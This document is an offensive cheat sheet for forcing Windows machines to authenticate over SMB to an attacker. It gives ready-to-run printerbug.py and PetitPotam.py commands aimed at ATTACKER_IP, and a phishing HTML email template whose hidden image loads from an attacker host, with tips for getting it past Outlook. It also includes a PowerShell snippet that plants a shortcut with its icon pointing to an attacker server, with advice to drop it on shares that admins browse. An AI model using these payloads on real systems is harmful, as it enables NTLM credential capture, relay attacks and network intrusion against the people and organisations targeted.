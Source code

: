 # Trigger Incoming SMB Connections
## Printerbug
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py   

Simple tool to trigger SpoolService bug via RPC backconnect. Similar to dementor.py.    
`# python3 printerbug.py domain/USER:password@target.domain.local ATTACKER_IP`   
 
### Using SpoolSample
The Printerbug can also be triggered from Windows using the "SpoolSample" tool: https://ci.appveyor.com/project/CompassSecurity/spoolsample   

*Check Spooler Remotely*
To check if the spooler is active on the remote target, there are different methods:   
- For DCs, you can use PingCastle   
- For manually checking a specific target with PowerShell, use: https://raw.githubusercontent.com/vletoux/SpoolerScanner/master/SpoolerScan.ps1
- For manually checking a specific target with Python, use: https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py

## PetitPotam
https://github.com/topotam/PetitPotam   

PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw function. This is possible via other protocols and functions as well ;) .
The tools use the LSARPC named pipe with inteface c681d488-d850-11d0-8c52-00c04fd90f7e because it's more prevalent.
But it's possible to trigger with the EFSRPC named pipe and interface df1941c5-fe89-4e79-bf10-463657acf44d.
It doesn't need credentials against Domain Controller.

`# python3 PetitPotam.py -d 'domain' -u 'user' -p 'password' ATTACKER_IP TARGET`   

## Phishing email with <img> tag
Payload template
```
<html>
<body>
<img src="\\<ATTACKER VM>\compass.ico" height="1" width="1" />
</body>
</html>
```

*Outlook* 
For some reason outlook only allows to embed an HTML file if it is attached through the quick access bar.
First you need to show the quick access toolbar, then customize the quick access toolbar by adding the command "Attach File" (More Commands...).
You can then attach the HTML payload to your email (Make sure you click on the dropdown and "Insert as Text")

## Shortcut
Trigger SMB connection using a shortcut, by setting its icon location to a UNC path (e.g. kali running Responder):   
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\computername\software\test.lnk")
$shortcut.IconLocation = "\\10.10.10.1\test.ico"
$shortcut.Save()
```
A good location for such a file would be a central SMB share where many people have read access. (Or a share where the IT admins are regularly connecting to...)
